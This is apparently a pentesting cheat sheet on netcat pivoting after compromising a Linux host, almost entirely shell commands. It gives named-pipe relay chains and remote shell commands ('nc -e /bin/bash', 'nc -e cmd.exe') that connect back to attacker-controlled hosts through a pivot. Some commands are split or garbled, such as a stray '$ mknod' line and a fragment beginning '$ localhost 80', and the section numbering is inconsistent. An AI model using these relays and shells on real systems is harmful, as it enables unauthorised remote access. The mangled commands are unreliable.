 # Netcat

## 01 - Pivoting Listening Ports

Let's say you're stuck in a situation that there's no other way to perform pivoting except one of the netcat variants were preinstalled in the compromised Linux system.

```
$ mkfifo /tmp/backpipe

$ mknod /tmp/backpipe p

$ nc -lnvp <pivot_PORT> 0 < /tmp/backpipe | nc <bind_IP> <bind_PORT> 1 > /tmp/backpipe
```

## 02 - Scenarios

### 2.1 - Server-to-Client Relay

> [!INFO] Netcat Port Forwarding
> You can bind any exposed port to establish connection as long it works. Do not limit yourself to one specific service.

```
$ mknod /tmp/backpipe pipe; nc -lnvp 8443 0 < /tmp/backpipe | nc <webserver_IP> 443 1 > /tmp/backpipe
```

Another way is to port forward through SSH then pipe it in the `netcat` listener.

```
$ mkfifo /tmp/backpipe pipe

$ while [ 1 ]; do nc -lp 8443 < /tmp/backpipe | ssh <ssh_server_IP> [-p <PORT>] "nc <webserver_IP> 80" | tee /tmp/backpipe; done
```

Then use `curl` to check connect to the pivot server.

```
userware@hackware-os:~$ curl -k http://<pivot_IP>:8443
```

### 2.2 - Examples

#### 1.2.2 - Proxy (Port 80 to 8080)

```
$ mknod /tmp/backpipe pipe; nc -l -p 8080 0 & < /tmp/backpipe | tee -a inflow | nc localhost 80 | tee -a outflow 1 > /tmp/backpipe

$ mknod

$ /tmp/backpipe pipe; nc -l -p 8080 0 & < backpipe | tee -a inflow | nc
```

#### 1.2.3 - Proxy monitor (Port 80 to 8080)

```
$ localhost 80 | tee -a outflow & 1 > /tmp/backpipe
```

### 2.3 - Port Forward Bind Shells

#### 2.3.1 - Server-to-Client Relay

```
userware@hackware-os:~$ nc <pivot_IP> <pivot_PORT>
```

```
user@pivot:~$ mknod /tmp/backpipe

user@pivot:~$ nc -lvnp <pivot_PORT> < /tmp/backpipe | nc <target_IP> <target_PORT> > /tmp/backpipe
```

```
user@computer:~$ nc -lp <target_PORT> -e /bin/bash

C:\> nc -lp <target_PORT> -e cmd.exe
```

#### 2.3.2 - Server-to-Server Relay

```
userware@hackware-os:~$ nc <pivot_IP> <pivot_PORT_1>
```

Open two listeners.

```
user@pivot:~$ mknod /tmp/backpipe

user@pivot:~$ nc -lvnp <pivot_PORT_1> < /tmp/backpipe | nc -lvnp <pivot_PORT_2> > /tmp/backpipe
```

```
user@computer:~$ nc <pivot_IP> <pivot_PORT_2> -e /bin/bash

C:\> nc <pivot_IP> <pivot_PORT_2> -e cmd.exe
```

### 2.4 - Port Forward Bind Shells

#### 2.4.1 -Client-to-Server Relay

```
userware@hackware-os:~$ nc -lnvp <attacker_PORT>
```

```
user@pivot:~$ mknod /tmp/backpipe

user@pivot:~$ nc <attacker_IP> <attacker_PORT> < /tmp/backpipe | nc -lnvp <pivot_PORT> > /tmp/backpipe
```

```
user@computer:~$ nc <pivot_IP> <pivot_PORT> -e /bin/bash

C:\> nc <pivot_IP> <pivot_PORT> -e cmd.exe
```

#### 2.4.2 -Client-to-Client Relay

```
userware@hackware-os:~$ nc -lnvp <attacker_PORT>
```

```
user@pivot:~$ mknod /tmp/backpipe

user@pivot:~$ nc <attacker_IP> <attacker_PORT> < /tmp/backpipe | nc <target_IP> <target_PORT> > /tmp/backpipe
```

```
user@computer:~$ nc -lp <target_PORT> -e /bin/bash

C:\> nc -lp <target_PORT> -e cmd.exe
```

---
## References

- [Michael Nikitochkin: Netcat with SSH Port Forwarding](https://medium.com/notes-and-tips-in-full-stack-development/netcat-with-ssh-port-forwarding-148177b2e850)